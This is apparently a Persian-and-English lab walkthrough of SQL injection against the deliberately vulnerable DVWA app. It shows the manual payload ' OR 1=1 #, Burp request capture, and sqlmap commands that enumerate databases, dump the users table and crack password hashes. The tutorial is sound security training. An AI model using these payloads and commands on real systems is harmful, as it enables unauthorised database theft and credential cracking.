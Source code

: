 #### Practical Demo
##### DVWA SQL Injection - Low Difficulty Instruction
0. *Pre-Requires*
	1. Set Security Level on Low
	2. goto `DVWA => SQL Injection`
1. *Manually Inject SQL Commands* 
	1. هنگامیکه به صفحه آزمایشگاه میرویم فیلدی را مشاهده میکنیم که به دیتابیس هم متصل است. 
	2. در این فیلد ID هر یوزری را که وارد کنیم تمام اطلاعات آن واکشی میشود.
		1. ![[Pasted image 20240723210759.png]]
	3. کافیست در این فیلد عبارت زیر را تزریق کنیم تا داده های درون دیتابیس واکشی شوند >>
	4. `' OR 1=1 #`
		1. ![[Pasted image 20240723210558.png]]
	5. با اجرای کامند، شرط درون فیلد True میشود و تمام داده های درون دیتابیس واکشی میشود، در واقع در منطق OR اگر یک طرف شرط True باشد، کل شرط نیز True میشود در نتیجه میتوان با اضافه کردن یک طرف True کل شرط را True کرد.
		1. ![[Pasted image 20240723210625.png]]
2. *Capture Request with Burpsuite*
	1. Intercept On
	2. Set Proxy On in Foxy Proxy
	3. Submit an ID and request captured in Burp
		1. ![[Pasted image 20240723210919.png]]
	4. `Select All Request Content => Right-Click => Copy to file`
		1. ![[Pasted image 20240723211008.png]]
	5. save as `req.txt` 
3. *Automated SQL Injection with `sqlmap`*
	1. `sqlmap -r req.txt --dbs`
		1. ![[Pasted image 20240723211308.png]]
	2. در این وب سرور دو دیتابیس بنام های `dvwa` و `information_schema` وجود دارد، حال میتوانیم جداول `dvwa` را واکشی کنیم:
		1. ![[Pasted image 20240723211350.png]]
	3. `sqlmap -r req.txt -D dvwa --tables`
		1. ![[Pasted image 20240723211523.png]]
	4. در دیتابیس `dvwa` دو جدول بنام های `users` و `guestbook` وجود دارد، حال باید ستون های جدول `users` را واکشی کنیم.
		1. ![[Pasted image 20240723211553.png]]
	5. `sqlmap -r req.txt -D dvwa -T users --columns`
		1. ![[Pasted image 20240723211652.png]]
	6. با اجرای کامند تمامی ستون های جدول users به همراه Type هر ستون واکشی میشوند، در آخر هم میتوانیم با استفاده از کامند زیر تمام داده های درون جدول `users` را واکشی کنیم.
		1. ![[Pasted image 20240723211759.png]]
	7. `sqlmap -r req.txt -D dvwa -T users --dump-all`
		1. ![[Pasted image 20240723211939.png]]
	9. اگر در دیتابیس hash وجود داشته باشد، ابزار سوالی برای کرک این هش ها میپرسد. 
		1. ![[Pasted image 20240723212205.png]]
	10. مثلا اگر فیلد داده های Password اکانت ها بصورت hash شده ذخیره شده باشد، ابزار میتواند بصورت خودکار مقادیر هش شده را کرک کند و مقدار صحیح را نمایش دهد.
		1. ![[Pasted image 20240723212255.png]]
	11. همانطور که در تصویر زیر مشاهده کردیم تمام داده های درون جدول `users` با اجرای کامند بالا واکشی و سپس نمایش داده میشوند.
		1. ![[Pasted image 20240723212445.png]]
4. SQL Injection & Cracking Done
	1. با اجرای کامند `dump-all--` تمام داده های درون جدول یوزر لیست میشوند و درواقع توانستیم با موفقیت تزریق SQL را بصورت دستی و اتوماتیک انجام دهیم:
		1. ![[Pasted image 20240723212403.png]]
```sh
sqlmap -r req.txt --dbs #1. Extract Databses in Server
sqlmap -r req.txt -D dvwa --tables #2. Extract Tables in DVWA Databse
sqlmap -r req.txt -D dvwa -T users --columns #3. Extract Columns in users Table
sqlmap -r req.txt -D dvwa -T users --dump-all #4. Dumping all Records from dvwa Database users Table
"sqlmap Asking for store hashes in temporary file" => Y?N #Press Y
"sql map asking for Cacking Hashes =>" Y?N #Press Y
"Enter a Wordlist Path:"
```